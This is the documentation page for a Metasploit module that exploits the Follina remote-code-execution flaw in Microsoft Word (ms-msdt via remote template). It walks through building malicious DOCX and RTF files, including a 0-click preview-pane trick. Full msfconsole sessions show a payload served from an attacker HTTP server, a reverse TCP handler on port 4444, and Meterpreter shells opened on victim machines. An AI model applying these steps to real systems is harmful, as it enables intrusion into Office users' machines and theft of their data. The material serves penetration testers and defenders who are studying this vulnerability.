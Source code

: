 There exists a vulnerability in Microsoft Word that leverages the remote template feature to achieveremote code execution against the target.

The vulnerability came to light after an independent cybersecurity research team known as `nao_sec` uncovered a Word document ([05-2022-0438.doc](https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/)) that was uploaded to VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an `HTML` document and then uses the `ms-msdt` scheme to execute `PowerShell` code.

## Vulnerable Application

The vulnerability has been proved in Office 2013, 2016, 2019, 2021, Office ProPlus and Office 365. It also applies to Windows itself, e.g. it can be called from `.lnk` files and with `wget` into `PowerShell`.

The vulnerability appears exploitable using `.RTF` files on all versions of Office 365, including current channel.

However, with Insider and Current builds of Office, it doesn't seem to work.

### Make your lab

You need official version of Microsoft Office installed. And stay unpatched for this.

Tested on Microsoft Windows 10 1909 w/ Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

**URIPATH**
The URI for the callback to get the payload.  Testing suggests this must be ANSI compatible and the full URI must be less than 76 characters.

## Scenarios

### Basic use

1. Generate the exploit for docx as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.32.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.32.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

### The 0-Click tip

You can get the 0-click by either selecting the 'rtf' option in converting, manually, the `.docx` file generated by the module into a `.rtf` file format.

### RTF 

1. Generate the exploit for rtf as following.
```
msf6 exploit(windows/fileformat/word_msdtjs_rce) > show options

Module options (exploit/windows/fileformat/word_msdtjs_rce):

Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
CUSTOMTEMPLATE                   no        A DOCX file that will be used as a template to build the exploit.
FILENAME        msf.docx         no        The file name.
OBFUSCATE       true             yes       Obfuscate JavaScript content.
OUTPUT_FORMAT   docx             yes       File format to use [docx, rtf]. (Accepted: docx, rtf)
SRVHOST         10.5.135.101     yes       The local host or network interface to listen on. This must be an address on the loca
l machine or 0.0.0.0 to listen on all addresses.
SRVPORT         8080             yes       The local port to listen on.
SSL             false            no        Negotiate SSL for incoming connections
SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
URIPATH                          no        The URI to use for this exploit (default is random)


Payload options (windows/x64/meterpreter/reverse_tcp):

Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
LHOST                      yes       The listen address (an interface may be specified)
LPORT     4444             yes       The listen port


Exploit target:

Id  Name
   --  ----
0   Microsoft Office Word


msf6 exploit(windows/fileformat/word_msdtjs_rce) > set filename test.rtf
filename => test.rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set output_format rtf
output_format => rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set lhost 10.5.135.101
lhost => 10.5.135.101
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set verbose true
verbose => true
msf6 exploit(windows/fileformat/word_msdtjs_rce) > set disablepayloadhandler false
disablepayloadhandler => false
msf6 exploit(windows/fileformat/word_msdtjs_rce) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.5.135.101:4444
[*] Using URL: http://10.5.135.101:8080/7eIbCn81aas277
[*] Server started.
[*] Generating a malicious rtf file
[+] test.rtf stored at /home/tmoose/.msf4/local/test.rtf
msf6 exploit(windows/fileformat/word_msdtjs_rce) > [*] Powershell command length: 3718
```

2. Upload rtf file to remote host, make sure 'preview' is enabled, and click on the file.  (You don't need to open it, just click once to preview it)

```
[*] 10.5.132.101     word_msdtjs_rce - Sending HTML Payload
[*] 10.5.132.101     word_msdtjs_rce - Obfuscate JavaScript content
[*] 10.5.132.101     word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200774 bytes) to 10.5.132.101
[*] Meterpreter session 1 opened (10.5.135.101:4444 -> 10.5.132.101:51221) at 2022-08-17 10:56:01 -0500

msf6 exploit(windows/fileformat/word_msdtjs_rce) > sessions -i -1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : DESKTOP-D1E425Q
OS              : Windows 10 (10.0 Build 17134).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-D1E425Q\msfuser
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
  3. <https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/>
  4. <https://doublepulsar.com/follina-a-microsoft-office-code-execution-vulnerability-1a47fce5629e>
  5. <https://twitter.com/GossiTheDog/status/1531608245009367040>
  6. <https://github.com/JMousqueton/PoC-CVE-2022-30190>

